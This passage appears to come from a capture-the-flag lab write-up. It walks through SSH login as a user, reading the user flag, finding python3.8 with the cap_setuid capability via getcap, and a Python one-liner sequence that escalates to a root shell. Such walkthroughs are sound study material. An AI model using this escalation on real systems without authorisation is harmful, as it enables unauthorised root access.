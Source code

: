 Answer: `SSH`

---


## Task 7: Submit the flag located in Nathan's home directory.

### Steps:
1. Logged into the machine via SSH using Nathan's credentials:
   ```bash
   ssh nathan@<target_ip>
   ```

   
2. Navigated to Nathan's home directory and retrieved the user flag:
   ```bash
   cat /home/nathan/user.txt
   ```

   
   
<img width="605" alt="Screenshot 2024-12-10 at 22 56 19" src="https://github.com/user-attachments/assets/63f45edf-07fd-4aae-909d-121304a98137">

---


## Task 8: What is the full path to the binary with special capabilities that can be abused to escalate privileges?


### Steps:

1. Searched for binaries with elevated capabilities using:
2. 
   ```bash
   getcap -r / 2>/dev/null
   ```

   <img width="647" alt="Screenshot 2024-12-10 at 22 56 37" src="https://github.com/user-attachments/assets/3ddcc140-56db-46c0-8f0a-84a45335ca7b">

3. Found the following binary with special capabilities:

   
   ```
   /usr/bin/python3.8 = cap_setuid+ep
   ```

The `cap_setuid` capability allows switching the user ID to `0` (root) without the SUID bit. By leveraging this capability, we gained a root shell.


### Exploitation:

1. Launched Python and executed the following commands:

   
   ```python
   import os
   os.setuid(0)
   os.system("/bin/bash")
   ```
   